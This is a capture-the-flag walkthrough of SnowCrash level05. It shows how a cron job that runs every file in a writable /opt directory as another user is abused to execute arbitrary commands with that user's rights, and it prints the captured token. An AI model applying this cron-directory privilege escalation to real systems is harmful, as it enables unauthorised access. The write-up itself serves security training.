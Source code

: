 # Level05

# context

when I logged in with user `level05` using ssh, a weird message pops up in the terminal
```
➜  ~ ssh level05@192.168.64.2 -p 4242
	   _____                      _____               _
	  / ____|                    / ____|             | |
	 | (___  _ __   _____      _| |     _ __ __ _ ___| |__
	  \___ \| '_ \ / _ \ \ /\ / / |    | '__/ _` / __| '_ \
	  ____) | | | | (_) \ V  V /| |____| | | (_| \__ \ | | |
	 |_____/|_| |_|\___/ \_/\_/  \_____|_|  \__,_|___/_| |_|

  Good luck & Have fun

          192.168.64.2 fdbc:6e29:8541:c87d:8464:6df7:4868:ca fdbc:6e29:8541:c87d:8e0:7cff:fe0b:efc7
level05@192.168.64.2's password:
You have new mail.
level05@SnowCrash:~$
```

# steps to repreduce

the message give me a hint that there's an email somewhere. so I have to search for it first
```
level05@SnowCrash:~$ find / -name mail 2> /dev/null
/usr/lib/byobu/mail
/var/mail
/var/spool/mail
/rofs/usr/lib/byobu/mail
/rofs/var/mail
/rofs/var/spool/mail
level05@SnowCrash:~$
```

inside the directory `/var/mail/` a file named `level05`:
```
level05@SnowCrash:~$ cat /var/mail/level05
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
level05@SnowCrash:~$
```

as mentioned here at [crontab.guru](https://crontab.guru/#*/2_*_*_*_*)
> every 2 min the command `sh /usr/sbin/openarenaserver` is running with user `flag05`.

what's `sh /usr/sbin/openarenaserver` do?

```
level05@SnowCrash:~$ cat /usr/sbin/openarenaserver
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
level05@SnowCrash:~$
```

as you can see in the file `/usr/sbin/openarenaserver`:
1. Gets all files in directory `/opt/openarenaserver/*`.
2. Set the CPU time limit to 5 Seconds.
3. Run the file that is being processed.
4. Then delete the executed file.

NOTE: `/opt/openarenaserver` is writeable that mean we can create files inside this dir
```
level05@SnowCrash:~$ ls -la /opt/
total 0
drwxr-xr-x  1 root root  60 Jun  5 16:10 .
drwxr-xr-x  1 root root 240 Jun  5 16:10 ..
drwxrwxr-x+ 2 root root  40 Jun  5 16:28 openarenaserver
level05@SnowCrash:~$
```

now if we combain all the information we have:
- there's a corn job running every 2 minute
- then execute all the files in `/opt/openarenaserver` with the permission of user `flag05`
- when execution end the file is deleted

so we can create a file in `/opt/openarenaserver` and wait for 2 min to be executed.

I will create a file in `/opt/openarenaserver/getflag05` this file will execute the command `getflag` and store the result in a file named `/tmp/flag05` so the file can't be deleted and also I can read the file to get the flag

the final command: `echo '/bin/getflag > /tmp/flag05' > /opt/openarenaserver/getflag05`.

then waiting 2 min
```
level05@SnowCrash:~$ cat /tmp/flag05
Check flag.Here is your token : viuaaale9huek52boumoomioc
level05@SnowCrash:~$
```

here's the token.
